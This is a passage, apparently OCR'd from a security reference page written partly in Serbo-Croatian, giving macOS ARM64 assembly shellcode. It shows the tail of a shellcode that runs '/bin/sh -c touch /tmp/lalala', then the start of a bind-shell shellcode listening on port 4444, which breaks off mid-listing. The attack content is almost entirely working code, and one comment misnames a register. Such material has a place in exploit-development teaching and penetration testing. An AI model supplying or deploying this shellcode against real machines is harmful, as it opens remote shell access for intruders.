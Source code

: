```armasm
svc 0                  ; Make the syscall


_exit:
mov x16, #1            ; Load the syscall number for exit (1) into x8
mov x0, #0             ; Set exit status code to 0
svc 0                  ; Make the syscall

_loop: b _loop

sh_path: .asciz "/bin/sh"
.align 2
sh_c_option: .asciz "-c"
.align 2
touch_command: .asciz "touch /tmp/lalala"
```
#### Bind shell

Bind shell sa [https://raw.githubusercontent.com/daem0nc0re/macOS_ARM64_Shellcode/master/bindshell.s](https://raw.githubusercontent.com/daem0nc0re/macOS_ARM64_Shellcode/master/bindshell.s) na **portu 4444**
```armasm
.section __TEXT,__text
.global _main
.align 2
_main:
call_socket:
// s = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
mov  x16, #97
lsr  x1, x16, #6
lsl  x0, x1, #1
mov  x2, xzr
svc  #0x1337

// save s
mvn  x3, x0

call_bind:
/*
* bind(s, &sockaddr, 0x10)
*
* struct sockaddr_in {
*     __uint8_t       sin_len;     // sizeof(struct sockaddr_in) = 0x10
*     sa_family_t     sin_family;  // AF_INET = 2
*     in_port_t       sin_port;    // 4444 = 0x115C
*     struct  in_addr sin_addr;    // 0.0.0.0 (4 bytes)
*     char            sin_zero[8]; // Don't care
* };
*/
mov  x1, #0x0210
movk x1, #0x5C11, lsl #16
str  x1, [sp, #-8]
mov  x2, #8
sub  x1, sp, x2
mov  x2, #16
mov  x16, #104
svc  #0x1337

call_listen:
// listen(s, 2)
mvn  x0, x3
lsr  x1, x2, #3
mov  x16, #106
```